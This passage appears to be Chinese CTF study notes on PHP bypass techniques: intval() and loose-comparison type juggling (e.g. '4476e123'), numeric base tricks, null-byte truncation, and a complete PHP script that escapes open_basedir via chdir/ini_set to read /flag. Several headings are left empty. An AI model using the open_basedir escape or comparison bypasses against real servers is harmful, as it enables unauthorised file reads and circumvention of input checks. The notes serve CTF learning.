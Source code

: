 #### 0x01 多行绕过

#### 0x02 00截断

### 3.intval绕过

#### 0x01 正常解析

intval()函数如果$base为0则$var中存在字母的话遇到字母就**停止读取** 

并且该情况下，会解析**0x**,直接的num。

但是e这个字母比较特殊，可以在PHP中不是科学计数法。

所以为了绕过前面的==4476我们就可以构造 4476e123 其实不需要是e其他的字母也可以





这样其实这俩个就相当于同一种情况了。`==`读会自动转换一下。

#### 0x02 进制转换

```
 0b?? : 二进制
 0??? : 八进制
 0X?? : 16进制
```

#### 0x03 浮点数转整数

```
4726.0==4726
```

#### 0x04 正负数

```
+1 == 1
```

### 4. 文件名绕过

#### 0x01 filter绕过

##### 0x02 ./ 当前目录绕过

### 5. open_basedir绕过

可以绕过进行读文件

```<?php
<?php
chdir("sandbox/660bef445e619cf44695fec04f93e4f7ff60e252");
mkdir('decadefirst');
chdir('decadefirst');
ini_set('open_basedir','..');
chdir('..');chdir('..');chdir('..');
chdir('..');chdir('..');chdir('..');chdir('..');
ini_set('open_basedir','/');
var_dump(file_get_contents("/flag"));
```
